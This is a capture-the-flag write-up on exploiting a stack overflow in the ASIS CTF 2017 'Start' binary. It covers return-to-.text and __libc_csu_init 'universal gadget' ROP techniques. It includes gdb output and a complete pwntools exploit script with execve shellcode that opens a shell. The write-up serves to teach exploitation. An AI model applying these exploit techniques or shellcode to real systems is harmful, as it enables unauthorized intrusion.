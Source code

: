 # Return to .text section / Universal gadgets
## Circumvent mitigation techniques cause of lacking ROP gadgets or libc addy

--------------------------------------------------------------------------------
### Return to .text section
For this post I will use a task called "Start" from ASIS CTF 2017 as an simple but in my opinion extremely useful example
For this task you will be provided with a service that just allows you to put in data to it. At first let's check for mitigation mechanisms as usual

```
checksec --file ./Start $
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

So all the mechanisms all disabled...Back to the 90's ?
Let's take a look into the assembly code:

```
push rbp
mov rbp, rsp
sub rsp, 0x20
mov dword [rbp - 0x14], edi
mov qword [rbp - 0x20], rsi
lea rax, qword [rbp - 0x10]
mov edx, 0x400
mov rsi, rax
mov edi, 0
call sym.imp.read
mov eax, 0
leave
ret
```
Ok...reservation of 32 bytes after rbp for locals and it's storing our read input buffer on stack regardless of the string's length we provide.
It's a simple overflow bug with allows us to do a classical RIP overwrite.

But wait...There isn't any information leak returning us any stack or libc addy. And besides that the binary is extremely small, so we won't be lucky in searching for any gadgets that allow us to do any stack pivoting.
#### "Prepare for the worst..."
Luckily there is a technique called "return to text" which can bypass the lack of any good gadgets regardless if ASLR is enabled or not.
Cause that binary isn't compiled with PIE, .text and .bss sections won't be randomized. In short terms this technique works as follows:

1. Overwrite RIP by the address of any function that can read user supplied data (e.g. read, gets...called "A" below)
2. Set return address after "A"
3. Set argument of "A"
4. When running "A" will ask for input data
5. Inject shellcode
6. When "A" finishes it will directly jump to our shellcode

#### x86-64 syscalls
If the binary is compiled for amd64 architecture any arguments provided to a function call will be passed by registers.
First in rdi, second in rsi, third in rdx, then rcx, r8, r9 and so on. If other arguments have to pass, they will have been pushed on the stack. Syscall num is provided by rax (you can use a tool called "shellnoob" to bet syscall nums).

#### Lack of gadgets
If you open the binary in any ROP-finding toolset, you will just find a total of 62 gadgets. It seems not to be possible to use any meaningful combination to set all the registers.
One possibility for circumvent would be to check if we have any register pointing to a location within our input buffer.
And voilá...When ```main``` returns it doesn't clear the registers:

```
gdb ./Start $
Loaded 101 commands.  Type pwndbg [filter] for a list.
Reading symbols from ./Start...(no debugging symbols found)...done.
pwndbg> r < <(python -c 'print "A"*32')
Starting program: /home/felix/Dokumente/CTF/asisCTF_2017/Start/Start < <(python -c 'print "A"*32')

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400551 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────────────────────────────────────────────REGISTERS───────────────────────────────────────────────────]
 RAX  0x0
 RBX  0x0
*RCX  0x7ffff7b165a0 (__read_nocancel+7) ◂— cmp    rax, -0xfff
*RDX  0x400
 RDI  0x0
*RSI  0x7fffffffe230 ◂— 'AAAAAAAAAAAAAAA...'
*R8   0x4005d0 ◂— ret
*R9   0x7ffff7de8a50 (_dl_fini) ◂— push   rbp
*R10  0x37b
*R11  0x246
*R12  0x400430 ◂— xor    ebp, ebp
*R13  0x7fffffffe320 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe248 ◂— 'AAAAAAAA\n'
*RIP  0x400551 ◂— ret
```

#### Exploit
So we just have to put return addy to rsi and go on with a pop rsi gadget.
Payload will consist into rwo parts:

1. padding(24 bytes) + pop_rsi + read + ret addy + garbage + read_plt + ret addy
2. shellcode

```python
#!/usr/bin/env python

from pwn import *

r=process("./Start")
elf=ELF("./Start")
context.os="linux"
context.arch="amd64"
scode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
read=elf.symbols['read']
pop_rsi_r15=0x004005c1
bss = elf.bss() + 0x100


def overwrite():
    padding = "\x90"*24
    payload = flat([padding,pop_rsi_r15, bss, "aaaabbbb", read, bss])
    log.info("Read  @ 0x{:08X}".format(read))
    log.info("BSS  @ 0x{:08X}".format(bss))
    raw_input("[DEBUG]")
    r.sendline(payload)
    r.sendline(scode)
    r.interactive()

def main():
    overwrite()
if __name__=="__main__":
    main()
```

### Using universal gadgets

We could also take advantage by the use of so called "universal gadgets"

>Every program before run into ```main()``` will call ```__libc_csu_init()```
>This function contains some useful gadgets to support you when preparing registers for sysalls

```
0000000000400550 <.__libc_csu_init>:

[*snip*]

4005a0:       4c 89 ea                mov    rdx,r13
4005a3:       4c 89 f6                mov    rsi,r14
4005a6:       44 89 ff                mov    edi,r15d
4005a9:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]

[*snip*]

4005ba:       5b                      pop    rbx
4005bb:       5d                      pop    rbp
4005bc:       41 5c                   pop    r12
4005be:       41 5d                   pop    r13
4005c0:       41 5e                   pop    r14
4005c2:       41 5f                   pop    r15
4005c4:       c3                      ret
```

Last seven instructions will pop values to registers and then return. Main idea will be to call these instructions/gadgets and jump to the first four after all.
So the ROP chain will look like this:

Sequence 1:
| Instruction | Expl |
| ------------- | ---------------------------------------------------------- |
| pop rbx | this register must be zero (it will be explained later on) |
| pop rbp | must be equal to one |
| pop r12 | address of instruction address |
| pop r13 | how many bytes to read |
| pop r14 | destination address of shellcode (e.g. .bss + 0x100) |
| pop r15 | some garbage |
| ret | put naxt garbage address |

2. Sequence 2:

| mov rdx,r13                   | set 3rd argument                                           |
| mov rsi,r14                   | set 2nd argument                                           |                                  
| mov edi,r15d                  | [1]                                                        |                                  
| call QWORD PTR [r12+rbx*8]    | [2]                                                        |
| add rbx, 1                      | [3]                                                      |
| cmp rbx, rbp                    | [3]                                                        |
| jne 0x40059                     | [3]                                                        |
| add rsp, 0x8                    | [4]                                                        |                                    
| pop rbx                         | put garbage                                                |
| pop rbp                         | put garbage                                                |
| pop r12                         | put garbage                                                |
| pop r13                         | put garbage                                                |
| pop r14                         | put garbage                                                |
| pop r15                         | put garbage                                                |
| ret                             | .bss + 0x100                                               |

